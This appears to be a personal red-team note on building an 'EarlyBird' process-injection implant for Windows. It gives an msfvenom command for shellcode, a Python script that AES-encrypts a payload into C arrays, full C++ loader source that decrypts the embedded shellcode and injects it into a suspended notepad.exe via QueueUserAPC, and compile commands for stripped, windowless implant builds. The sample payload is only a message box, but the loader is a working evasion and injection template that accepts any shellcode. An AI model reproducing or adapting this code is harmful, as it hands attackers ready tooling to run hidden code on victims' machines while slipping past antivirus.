

![[Pasted image 20260629221045.png|697]]



### MSF

> [!warning]- MSF
>```bash
>msfvenom -p windows/x64/messagebox --platform windows -a x64 TITLE=CNA TEXT="Wellcome To The ATTvDEF" -f raw -o msg
>```

### AES Encryption

> [!info]- AES Encryption
>```python
>import sys
>import os
>import hashlib
>import ctypes
>
># -----------------------------
># PKCS7 Padding
># -----------------------------
>def pad(data, block_size=16):
>    pad_len = block_size - (len(data) % block_size)
>    return data + bytes([pad_len] * pad_len)
>
>def xor_bytes(a, b):
>    return bytes(x ^ y for x, y in zip(a, b))
>
># -----------------------------
># Load Lib libcrypto.so
># -----------------------------
>libcrypto = ctypes.CDLL("libcrypto.so")
>
>AES_ENCRYPT = 1
>
>class AES_KEY(ctypes.Structure):
>    _fields_ = [("rd_key", ctypes.c_uint * 60),
>                ("rounds", ctypes.c_int)]
>
>AES_set_encrypt_key = libcrypto.AES_set_encrypt_key
>AES_set_encrypt_key.argtypes = [ctypes.c_char_p, ctypes.c_int,
>                                ctypes.POINTER(AES_KEY)]
>AES_set_encrypt_key.restype = ctypes.c_int
>
>AES_encrypt = libcrypto.AES_encrypt
>AES_encrypt.argtypes = [ctypes.c_char_p, ctypes.c_char_p,
>                        ctypes.POINTER(AES_KEY)]
>AES_encrypt.restype = None
>
>def aes_encrypt_block(block: bytes, key: bytes) -> bytes:
>    aes_key = AES_KEY()
>    AES_set_encrypt_key(key, 256, ctypes.byref(aes_key))
>    out = ctypes.create_string_buffer(16)
>    AES_encrypt(block, out, ctypes.byref(aes_key))
>    return out.raw
>
>def aes_cbc_encrypt(data: bytes, key: bytes, iv: bytes) -> bytes:
>    prev = iv
>    blocks = []
>    for i in range(0, len(data), 16):
>        block = xor_bytes(data[i:i+16], prev)
>        enc = aes_encrypt_block(block, key)
>        blocks.append(enc)
>        prev = enc
>    return b"".join(blocks)
>
># -----------------------------
># main
># -----------------------------
>if len(sys.argv) < 2:
>    print(f"Usage: {sys.argv[0]} <payload file>")
>    sys.exit(1)
>
>plaintext = open(sys.argv[1], "rb").read()
>
>KEY = os.urandom(16)
>AES_KEY_DERIVED = hashlib.sha256(KEY).digest()
>IV = b"\x00" * 16
>
>ciphertext = aes_cbc_encrypt(pad(plaintext), AES_KEY_DERIVED, IV)
>
>print("AESkey[] = { 0x" + ", 0x".join(hex(x)[2:] for x in KEY) + " };")
>print("payload[] = { 0x" + ", 0x".join(hex(x)[2:] for x in ciphertext) + " };")
>```


> [!DANGER] EarlyBird
>```cpp
>#include <windows.h>
>#include <iostream>
>#include <wincrypt.h>
>#pragma comment (lib, "crypt32.lib")
>#pragma comment (lib, "advapi32")
>
>
>// MessageBox shellcode - 64-bit
>BYTE payload[] = {
>	0x54, 0xb3, 0xf8, 0xa7, 0x53, 0x99, 0x48, 0x35, 0x2d, 0x1a, 0xbc, 0xd5, 0xaa,
>	0x95, 0xf1, 0xf3, 0xc5, 0x80, 0x03, 0xa7, 0xe1, 0x77, 0x23, 0xb5, 0x88, 0x7a,
>	0x18, 0x65, 0xff, 0x20, 0xb7, 0xf2, 0xe8, 0xc7, 0x9c, 0x83, 0x92, 0x2e, 0x6e,
>	0xdf, 0xc6, 0x00, 0xac, 0x19, 0xac, 0x0d, 0xa2, 0xec, 0x57, 0xb9, 0xf2, 0x03,
>	0xf2, 0x7a, 0x2f, 0x8a, 0x18, 0xff, 0x99, 0x78, 0x80, 0x17, 0xf3, 0x1c, 0xc6,
>	0xe2, 0x9f, 0x71, 0xfd, 0x44, 0x3f, 0x99, 0xd9, 0xee, 0xa6, 0xe9, 0x31, 0x95,
>	0x9c, 0x4f, 0xfb, 0x8a, 0x2a, 0x14, 0xeb, 0x07, 0x7f, 0xd1, 0xae, 0x73, 0x56,
>	0x31, 0x38, 0x9d, 0x0a, 0xd7, 0x8c, 0x64, 0x58, 0xd1, 0x6a, 0x0b, 0xfe, 0x1e,
>	0x05, 0xa6, 0x31, 0xd9, 0x20, 0x46, 0xf5, 0x8a, 0xd4, 0x87, 0x4e, 0x9d, 0xac,
>	0x3e, 0xc2, 0x47, 0xd3, 0xa1, 0xc1, 0x38, 0x4f, 0xc2, 0xcf, 0xd2, 0x3d, 0x7c,
>	0xf0, 0xf1, 0xb5, 0x88, 0x99, 0xcc, 0xb6, 0x9f, 0xb0, 0x23, 0x56, 0x2b, 0xcc,
>	0xc2, 0xfe, 0xdc, 0x80, 0xe4, 0x48, 0xc4, 0x81, 0x9e, 0xd8, 0x3a, 0xd7, 0xcc,
>	0xce, 0x3c, 0x18, 0x1b, 0xc4, 0xe6, 0x9e, 0xbf, 0x02, 0xc7, 0xdb, 0x1e, 0x71,
>	0x74, 0xbf, 0xcf, 0x80, 0x26, 0x52, 0x22, 0xd4, 0x58, 0xf0, 0xe0, 0xec, 0xe5,
>	0x57, 0x3a, 0x8c, 0xa8, 0x5b, 0x18, 0x6a, 0xbd, 0xe6, 0x49, 0x92, 0xb4, 0x1f,
>	0x9f, 0x9c, 0x79, 0xfb, 0xf3, 0xf0, 0x3a, 0x51, 0xc6, 0x6e, 0xb9, 0x0d, 0xdd, 
>	0x7f, 0x35, 0xa1, 0xdb, 0xbc, 0x49, 0x1b, 0x0c, 0x43, 0xa0, 0xa3, 0x20, 0x97,
>	0x2e, 0x41, 0x21, 0xbb, 0x7b, 0x8c, 0xef, 0x78, 0x17, 0x06, 0x98, 0x24, 0xb8,
>	0x96, 0x3f, 0xf3, 0x4f, 0xb3, 0x29, 0xe6, 0x79, 0x5d, 0x7c, 0x63, 0x5a, 0xc2,
>	0x92, 0x2f, 0xc4, 0xe3, 0x68, 0x4f, 0x9d, 0x47, 0x2d, 0x03, 0xb0, 0x48, 0xe9,
>	0x23, 0xef, 0x46, 0x79, 0xbb, 0xdf, 0xa6, 0xe3, 0xfb, 0x19, 0xc4, 0x9e, 0xa3,
>	0x4f, 0x5a, 0xd8, 0x25, 0xcf, 0x1a, 0x00, 0x00, 0x5a, 0x78, 0x4e, 0x11, 0xf8,
>	0x05, 0x00, 0xcb, 0x98, 0xd5, 0x3e, 0xc9, 0x35, 0x5e, 0xcd, 0x83, 0xad, 0x1a,
>	0x35, 0x8d, 0xbd, 0x6d, 0x50, 0xbc, 0x63, 0xbc, 0xd9, 0x62, 0xf9, 0xb6, 0x1f,
>	0x94, 0xac, 0x4c, 0x65, 0xd0, 0x8f, 0x23, 0x1e};
>
>BYTE key[] = { 0x31, 0x75, 0xc2, 0x38, 0xc0, 0x7d, 0xa5, 0x27, 0xbe, 0x65, 0xc0, 0x69, 0x54, 0xe7, 0x8f, 0xf5 };
>size_t payloadsz {sizeof payload};
>size_t keysz {sizeof key};
>
>int AESDecrypt(BYTE * payload,size_t payloadsz,BYTE *key, size_t keysz) {
>	HCRYPTPROV hProv;
>	HCRYPTHASH hHash;
>	HCRYPTKEY hKey;
>
>	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT))
>			return -1;
>
>	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash))
>			return -1;
>	
>	if (!CryptHashData(hHash,key, (DWORD) keysz, 0))
>			return -1;              
>	
>	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey))
>			return -1;
>	
>	if (!CryptDecrypt(hKey, (HCRYPTHASH)nullptr, 0, 0,payload, (DWORD *) &payloadsz))
>			return -1;
>	
>	CryptDestroyKey(hKey);
>	CryptDestroyHash(hHash);
>	CryptReleaseContext(hProv, 0);
>	return 0;
>}
>
>
>int main(void) {
>
>
>    STARTUPINFOW si{};
>    PROCESS_INFORMATION pi{};
>    si.cb = sizeof(si);
>    
>	wchar_t cmd[]= L"notepad.exe";
>	CreateProcessW(0,cmd, 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
>
>
>	// perform payload injection
>	LPVOID RemoteExecution{VirtualAllocEx(pi.hProcess, NULL, payloadsz, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READ)};
>	if(!RemoteExecution){
>		CloseHandle(pi.hProcess);
>		return 1;
>	}
>
>	// Decrypt payload
>	AESDecrypt(payload, payloadsz,key,keysz);
>
>	if(!WriteProcessMemory(pi.hProcess, RemoteExecution,payload,payloadsz,nullptr)){
>		CloseHandle(pi.hProcess);
>		VirtualFreeEx(pi.hProcess,RemoteExecution,0,MEM_RELEASE);
>		return 1;
>	}
>
>	// execute the payload by adding async procedure call (APC) object to thread's APC queue
>	QueueUserAPC((PAPCFUNC)RemoteExecution, pi.hThread,reinterpret_cast<ULONG_PTR>(nullptr));
>	std::cout << "[+] Injection SuccessFully Complited\n";
>	ResumeThread(pi.hThread);
>	WaitForSingleObject(pi.hThread,500);
>	CloseHandle(pi.hThread);
>	CloseHandle(pi.hProcess);
>
>	return 0;
>}
>```


## Compile Time

> [!hint]+ Windows Build (cl.exe)
> ```batch
> @ECHO OFF
> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
> ```

> [!hint]+ MinGW Compiler With Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Without Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -mwindows -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler For Debug
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -g -O0 -Wall -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Strong Security
> ```bash
> x86_64-w64-mingw32-g++ implantc.cpp -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fstack-clash-protection -Wl,--dynamicbase -Wl,--nxcompat -Wl,--high-entropy-va -Wall -Wextra -o secure.exe
> ```

> [!hint]+ MinGW Compiler Hard Reverse
> ```bash
> x86_64-w64-mingw32-g++ main.cpp -O3 -flto -fstack-protector-strong -fstack-clash-protection -fPIE -pie -s -o hard.exe
> x86_64-w64-mingw32-strip --strip-all hard.exe
> ```


